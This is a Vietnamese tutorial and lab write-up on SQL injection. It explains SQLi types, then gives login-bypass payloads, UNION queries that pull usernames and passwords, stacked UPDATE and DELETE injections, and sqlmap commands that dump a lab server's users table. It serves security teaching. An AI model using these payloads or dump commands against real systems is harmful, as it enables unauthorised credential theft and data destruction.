# SQL Injection Basic
>Tên tài liệu: SQL Injection Basic <br>
Thực hiện: Phạm Văn Tam <br>
Cập nhật lần cuối: 1/10/2024
>
# Mục Lục
[1. Định nghĩa và cách phát hiện ](#p1) <br>
[2. Lỗi SQL Injection trên các hàm SELECT, INSERT, UPDATE, DELETE](#p2) <br>
[3. WriteUp lab SQL Vuln](#p3)

# Nội dung 
<a id="p1"></a>
## 1. Định nghĩa và cách phát hiện
### 1.1 Định nghĩa và tác động
SQL Injection (SQLi) là lỗ hổng cho phép attacker can thiệp vào các câu truy vấn mà ứng dụng thực hiện với Database của nó. <br>
Một cuộc tấn công SQL Injection thành công có thể dẫn đến truy cập trái phép các dữ liệu nhạy cảm như:
- Passwords.
- Credit card details.
- Personal user information

*SQLi gồm các dạng:*
- In-band SQLi: Dạng tấn công phổ biến nhất và cũng dễ để khai thác. Lỗ hổng xảy ra khi kẻ tấn công xâm phạm và thu nhập kết quả trực tiếp trên cùng một nơi.
    - Error-based SQLi: Dạng tấn công phụ thuộc vào kết quả lỗi trả về. Nhận biết lỗ hổng này qua lỗi khi thực hiện 1 số câu truy vấn.
    - Union-based SQLi: Dạng tấn công nối các câu truy vấn lại với nhau để có thể truy xuất ra dữ liệu của trang web.
- Inferential SQLi (Blind SQLi): Dạng tấn công này dự đoán dựa trên kết quả phản hồi của web và hành vi của cơ sở dữ liệu.
    - Blind-boolean-based SQLi: Dạng tấn công này dựa theo kết quả trả về của phản hồi. Ta sẽ kiểm tra ra bằng cách sử dụng câu truy vấn đúng sai và dựa theo phản hồi đồng thời phân tích và đánh giá.
    - Time-based-blind SQLi: Dạng tấn công này dựa theo thời gian trả về của phản hồi. Ta sẽ kiểm tra ra bằng cách sử dụng câu truy vấn thời gian và dựa theo phản hồi đồng thời phân tích và đánh giá.
- Out-of-band SQLi: Dạng tấn công này phụ thuộc vào tính năng được sử dụng trên dữ liệu máy chủ và web. Kẻ tấn công rất khó để xâm phạm và thu nhập được dữ liệu vì nó không cùng trên một nơi, đặc biệt phản hồi ở đây không được ổn định. Nghĩa là sử dụng 1 bên khác để thu nhập dữ liệu của bên muốn khai thác.
### 1.2 Cách phát hiện
Để phát hiện SQL Injection có thể dùng
- Thử với các ký tự đặc biệt như `'`, `"`, `--`, `;` để kiểm tra ứng dụng có trả về lỗi hay không 
- Sử dụng điều kiện boolean như `OR 1=1` và `OR 1=2` và xem sự khác nhau khi ứng dụng trả về
- Sử dụng các công cụ quét và phát hiện như : `Burp Scan`, `nuclei`, `nikto`, `sqlmc` , 'sqlmap'
<a id="p2"></a>
## 2. Lỗi SQL Injection trên các hàm SELECT, INSERT, UPDATE, DELETE
### 2.1 SELECT 
Câu lệnh SELECT thường dùng để truy xuất dữ liệu từ Database.<br>
Khai thác
- Union-based SQLi: Sử dụng UNION SELECT để kết hợp nhiều truy vấn và lấy data từ các table khác
- Error-based SQLi: Thao túng câu truy vấn gây lỗi để thu thập thông tin
```
id=1 UNION SELECT null, username, password FROM users--
```
- Blind SQLi: Khi kết quả không được trả về trực tiếp, hacker sử dụng các kỹ thuật boolean-based hoặc time-based để dò tìm dữ liệu.
```
?id=1 AND (SELECT 1 FROM users LIMIT 1)--
```
### 2.2 INSERT
INSERT dùng để chèn dữ liệu mới vào cơ sở dữ liệu. Attacker có thể chèn dữ liệu độc hại vào bảng, chẳng hạn như:
- Chèn mã độc vào cơ sở dữ liệu, ví dụ: tạo tài khoản admin giả mạo.
- Chèn các dữ liệu không hợp lệ gây gián đoạn hệ thống.
```
INSERT INTO users (username, password) VALUES ('hacker', 'malicious')--
```
### 2.3 UPDATE
UPDATE dùng để cập nhật dữ liệu đã có trong cơ sở dữ liệu. Attacker có thể:
- Thay đổi dữ liệu người dùng: thay đổi thông tin của các tài khoản khác (như đổi mật khẩu, email).
- Hạ cấp bảo mật: thay đổi cấu hình hệ thống để giảm độ bảo mật.
```
id=1; UPDATE users SET password='newpassword' WHERE id=1--
```
### 2.4 DELETE
DELETE dùng để xóa dữ liệu. Attacker có thể:
- Xóa toàn bộ dữ liệu người dùng.
- Xóa các bảng quan trọng làm gián đoạn dịch vụ.
```
id=1; DELETE FROM users WHERE id=1--
```
<a id="p3"></a>
## 3. WriteUp lab SQL Vuln
### 3.1 Login

Kiểm tra trang web có bị lỗ hổng SQL Injection hay không bằng cách nhập ký tự single quote `'` và xem phản hồi trang web có báo lỗi SQL hay không

Server báo lỗi `You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '''' AND password=''' at line 1` <br>
=> Web có thể bị tấn công SQL Injection
Sử dụng các payload sau để bypass:
```
' OR 1=1 --
' OR 1=1#
' OR 1=1+ - +
```
Và câu query lúc này sẽ là 
`SELECT * FROM users WHERE username = ‘admin’ ' or 1=1#  ‘ AND password=’password’` <br>

Mục đích của truy vấn là hệ thống sẽ hiển thị toàn bộ nội dung của bảng người dùng vì or 1=1 là đúng và # sẽ cho rằng không có câu lệnh nào sau toán tử AND, do đó nó chỉ trả về kết quả như sau: <br>
`SELECT * FROM users WHERE username = ‘admin’`

Và login thành công với tài khoản admin
Và cũng có thể dùng sqlmap để xem Database
Payload:
```
sqlmap -u "http://192.168.106.131:1337/lab/sql-injection/post-login/index.php" --data "username=test&password=test" --random-agent --batch --dbs
```

### 3.2. Find the Passwords

Test thử trang web thì thấy chức năng search đang bị lỗi SQL Injection

Lỗi này về mặt kỹ thuật giải thích rằng có lỗi cú pháp trong DB. Nếu lỗi này xuất hiện, điều đó có nghĩa là biểu mẫu dễ bị tấn công bởi SQLi.
Tiến hành dump Database
Cách 1: SQL map
Liệt kê tên các Database trên server:
```
sqlmap -u "http://192.168.106.131:1337/lab/sql-injection/find-password/?search=" --batch --level 5 --risk 3 --dbs -v 3
```

Liệt kê các bảng trong database:
```
sqlmap -u "http://192.168.106.131:1337/lab/sql-injection/find-password/?search=" --batch --level 5 --risk 3 --dbms=MySQL -D sql_injection --tables
```

Liệt kê các cột của bảng users
```
sqlmap -u "http://192.168.106.131:1337/lab/sql-injection/find-password/?search=" --batch --level 5 --risk 3 --dbms=MySQL -D sql_injection -T users --columns
```

Tiến hành dump bảng user :
```
sqlmap -u "http://192.168.106.131:1337/lab/sql-injection/find-password/?search=" --batch --level 5 --risk 3 --dbms=MySQL -D sql_injection -T users --dump
```

Cách 2:
```
http://192.168.106.131:1337/lab/sql-injection/find-password/?search=a%27+union+select+id,username,password,4,5,6+from+users+--+
```

### 3.3 Boolean-Based Blind SQL Injection
Nhìn tổng quan trang web là ứng dụng quản lý kho , cho phép kiểm tra tình trạng tồn kho của sản phẩm

Exploit dump database bằng sqlmap
Tìm tên các database trong server
```
sqlmap -u "http://192.168.106.131:1337/lab/sql-injection/post-blind-boolean/" --data "search=iphone11" --random-agent --technique=B -dbs --batch
```
 <br>
Tìm thấy 4 database
Tiếp tục tìm tên các bảng trong các database
```
sqlmap -u "http://192.168.106.131:1337/lab/sql-injection/post-blind-boolean/" --data "search=iphone11" --random-agent --technique=B -D sql_injection --tables --batch
```

=> Tìm thây 3 bảng trong database `sql_injection`
Trích xuất data từ bảng user
```
sqlmap -u "http://192.168.106.131:1337/lab/sql-injection/post-blind-boolean/" --data "search=iphone11" --random-agent --technique=B -D sql_injection -T users --dump --batch
```

### 3.4 Error-Based Blind SQL Injection (Use SQL injection to find existing database records.)
Check qua source code thì thấy untrusted data nằm ở biến $_GET['img'] mà biến này lại đưa trực tiếp trong câu truy vấn SQL mà không được kiểm tra .


Test thử thì nhận thây web đang gặp lỗ hổng SQL injection

Khai thác với sqlmap
Tìm tên các database
```
sqlmap -u "http://192.168.106.131:1337/lab/sql-injection/get-blind-error/index.php?img=2" --batch --dbs
```

Liệt kê các table trong database
```
sqlmap -u "http://192.168.106.131:1337/lab/sql-injection/get-blind-error/index.php?img=2" -D sql_injection --tables
```

Tiến hành dump bảng users cột username và password
```
sqlmap -u "http://192.168.106.131:1337/lab/sql-injection/get-blind-error/index.php?img=2" -D sql_injection -T users -C username,password --dump
```

